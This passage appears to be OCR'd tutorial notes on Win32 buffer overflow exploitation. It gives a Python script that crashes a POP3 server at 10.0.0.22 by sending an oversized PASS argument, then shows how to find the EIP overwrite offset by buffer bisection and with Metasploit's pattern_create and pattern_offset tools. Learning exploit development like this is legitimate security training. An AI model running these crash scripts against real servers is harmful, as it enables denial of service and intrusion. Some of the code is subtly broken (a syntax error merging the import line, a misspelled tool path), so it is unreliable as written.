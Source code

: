 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

    ```python
    #!/usr/bin/python
    import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    buffer = 'A' * 2700
    try:
      print "\nSending evil buffer..."
      s.connect(('10.0.0.22',110))
      data = s.recv(1024)
      s.send('USER username' +'\r\n')
      data = s.recv(1024)
      s.send('PASS ' + buffer + '\r\n')
      print "\nDone!."
    except:
      print "Could not connect to POP3!"
    ```

### Controlling EIP

  - Getting control of the EIP register is a crucial step of exploit development.

  - For this reason, it is vital that we locate those 4 A’s that overwrite our EIP register in the buffer.
  - There are two common ways to do this:

    #### Binary Tree Analysis

      - Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
      - If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
      - We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
      - If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
      - We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
      - Mathematically, this should happen in seven iterations.

    #### Sending a Unique String

      - The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
      - __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

        ```shell
        > locate pattern_create
        > /usr/share/metasploit-framework/tools/patte_create.rb 2700
        ```

      - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.
      ![EIP Overwritten by the Unique Pattern](/images/34.png)
        ```shell
        > /usr/share/metasploit-framework/tools/pattern_offset.rb 39694438
        # running resutl :[*] Exact match at offset 2606
        ```
